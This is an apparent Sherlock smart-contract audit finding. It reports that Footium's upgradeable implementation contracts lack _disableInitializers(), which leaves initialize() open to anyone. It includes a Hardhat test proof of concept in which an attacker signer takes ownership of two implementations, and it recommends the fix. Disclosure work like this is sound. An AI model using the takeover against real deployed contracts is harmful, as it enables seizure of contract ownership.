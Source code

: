 dacian

high

# Attacker Can Steal Ownership Of Implementation Contracts

## Summary
Attacker can steal ownership of implementation contracts for FootiumToken, FootiumPrizeDistributor, FootiumPlayer, FootiumGeneralPaymentContract, FootiumClubMinter, FootiumClub, FootiumAcademy

## Vulnerability Detail
Missing _disableInitializers() call in constructor()

## Impact
Attacker can steal ownership of the implementation contracts for all upgradeable contracts. Attacker may be able to leverage this to do very bad things - contest length & time available too short to further investigate.

## Code Snippet
None of the mentioned classes have a constructor that calls _disableInitializers(), eg [FootiumToken](https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumToken.sol#L7-L15)

PoC, add to FootiumPrizeDistributor.test.ts

```solidity
// extra import required for PoC
import { getImplementationAddress } from '@openzeppelin/upgrades-core';

// add attacker signer
let distributor, owner, token, addr1, addr2, erc20MerkleTree, ethMerkleTree, attacker;
[owner, addr1, addr2, attacker] = await ethers.getSigners();

// add new tests
context("Attacker can steal ownership of implementation contracts", () => {
	it("Attacker steals ownership of FootiumToken Implementation", async () => {

		// find implementation address of proxy being attacked
		const implAddress = await getImplementationAddress(ethers.provider, token.address);

		// get the ABI so we can invoke functions on the implementation address
		const contractABI      = await ethers.getContractFactory("FootiumToken");
		const contractToAttack = await contractABI.attach(implAddress);

		// verify that attacker doesn't own implementation
		await expect(await contractToAttack.owner()).to.not.equal(attacker.address);

		// attacker calls initialize() on the implementation to take ownership
		await contractToAttack.connect(attacker).initialize();

		// verify that attacker now owns implementation
		await expect(await contractToAttack.owner()).to.equal(attacker.address);
	});

	it("Attacker steals ownership of FootiumPrizeDistributor Implementation", async () => {

		// find implementation address of proxy being attacked
		const implAddress = await getImplementationAddress(ethers.provider, distributor.address);

		// get the ABI so we can invoke functions on the implementation address
		const contractABI      = await ethers.getContractFactory("FootiumPrizeDistributor");
		const contractToAttack = await contractABI.attach(implAddress);

		// verify that attacker doesn't own implementation
		await expect(await contractToAttack.owner()).to.not.equal(attacker.address);

		// attacker calls initialize() on the implementation to take ownership
		await contractToAttack.connect(attacker).initialize();

		// verify that attacker now owns implementation
		await expect(await contractToAttack.owner()).to.equal(attacker.address);
	});
});
```

To run tests:
```solidity
npx hardhat test --grep "steal ownership"
```


## Tool used
Manual Review

## Recommendation
Add following code to all vulnerable contracts:
```solidity
/// @custom:oz-upgrades-unsafe-allow constructor
constructor() {
    _disableInitializers();
}
```

Read relevant OpenZeppelin documentation on [_disableInitializers()](https://docs.openzeppelin.com/contracts/4.x/api/proxy#Initializable-_disableInitializers--)
